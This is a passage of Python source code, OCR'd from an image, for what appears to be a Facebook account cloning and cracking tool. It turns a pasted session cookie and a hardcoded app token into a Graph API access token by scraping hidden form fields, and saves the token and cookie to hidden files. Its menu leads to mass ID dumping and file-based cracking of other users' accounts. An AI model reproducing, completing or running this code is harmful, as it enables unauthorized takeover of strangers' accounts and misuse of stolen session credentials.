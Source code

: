 		try:
			basariheker = requests.get('https://graph.facebook.com/me?fields=id&access_token='+tokenku[0], cookies={'cookie':cok})
			main()
		except KeyError:
			login_lagi334()
		except requests.exceptions.ConnectionError:
			li = '# PROBLEM INTERNET CONNECTION, CHECK AND TRY AGAIN'
			lo = mark(li, style='red')
			sol().print(lo, style='cyan')
			exit()
	except IOError:
		login_lagi334()
def login_lagi334():
	try:
		os.system('clear')
		banner()
		cok = input('[+] PUT COOKIE = ')
		cos = {'cookie':cok}; data = {'access_token': '1348564698517390|007c0a9101b9e1c8ffab727666805038', 'scope': ''}; req  = ses.post('https://graph.facebook.com/v16.0/device/login/',data=data).json(); cd   = req['code']; ucd  = req['user_code']; url  = 'https://graph.facebook.com/v16.0/device/login_status?method=post&code=%s&access_token=1348564698517390|007c0a9101b9e1c8ffab727666805038'%(cd); req  = sop(ses.get('https://mbasic.facebook.com/device',cookies=cos).content,'html.parser'); raq  = req.find('form',{'method':'post'}); dat  = {'jazoest' : re.search('name="jazoest" type="hidden" value="(.*?)"',str(raq)).group(1), 'fb_dtsg' : re.search('name="fb_dtsg" type="hidden" value="(.*?)"',str(req)).group(1), 'qr' : '0', 'user_code' : ucd}; rel  = 'https://mbasic.facebook.com' + raq['action']; pos  = sop(ses.post(rel,data=dat,cookies=cos).content,'html.parser')
		dat  = {}
		raq  = pos.find('form',{'method':'post'})
		for x in raq('input',{'value':True}):
			try:
				if x['name'] == '__CANCEL__':
					pass
				else:
					dat.update({x['name']:x['value']})
			except Exception as e:
				pass
		rel = 'https://mbasic.facebook.com' + raq['action']; pos = sop(ses.post(rel,data=dat,cookies=cos).content,'html.parser'); req = ses.get(url,cookies=cos).json(); tok = req['access_token']; kot = open('.token.txt','w').write(tok); koc = open('.cok.txt','w').write(cok); masuk = input('\n[+] tekan enter'); os.system('clear'); login()
	except Exception as e:
		print(e)
#------------------[ BAGIAN-MENU ]----------------#
def main():
	os.system('clear')
	banner()
	ip = requests.get("https://api.ipify.org").text
	print(f'{N}[{asu}+{N}] YOUR IP : {ip}')
	print(f'{N}[{asu}✓{N}]{H} Status  {N}: \033[41m\033[1;37m FREE \x1b[0m\x1b[1;97m{N}')
	print(' ')
	print(f'[{H}MENU{N}]=============>')
	print(f'{N}[{h}1{N}] Publik Id Clone')
	print(f'{N}[{h}2{N}] File Clone')
	print(f'{N}[{h}0{N}] EXIT')
	print(f'{N}╭[{h}CHOICE MENU{x}]')
	_____IKFAR__IFC_____ = input(f'\r╰─➣{h} ')
	if _____IKFAR__IFC_____ in ['1']:
		dump_massal()
	elif _____IKFAR__IFC_____ in ['2']:
		crack_file()
	elif _____IKFAR__IFC_____ in ['0']:
		os.system('rm -rf .token.txt')
		os.system('rm -rf .cookie.txt')